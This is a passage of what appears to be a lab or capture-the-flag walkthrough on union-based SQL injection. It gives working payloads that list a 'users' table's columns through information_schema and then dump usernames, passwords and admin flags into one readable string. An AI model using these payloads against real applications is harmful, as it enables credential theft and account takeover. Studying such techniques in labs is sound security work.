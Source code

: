 ```bash
5 UNION SELECT group_concat(column_name),2,3,4 FROM information_schema.columns WHERE table_name='users'
```

![alt text](image-23.png)

+ After all we have the columns, we will extract all of the rows into one strings and make it easier to read.

```bash
5 UNION SELECT group_concat(id, ':' , isAdministrator, ':' , password, ':' , username SEPARATOR '<br>'),2,3,4 FROM users
```

![alt text](image-12.png)

### Note: We've also added ,':', to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML <br> tag that forces each result to be on a separate line to make for easier reading.

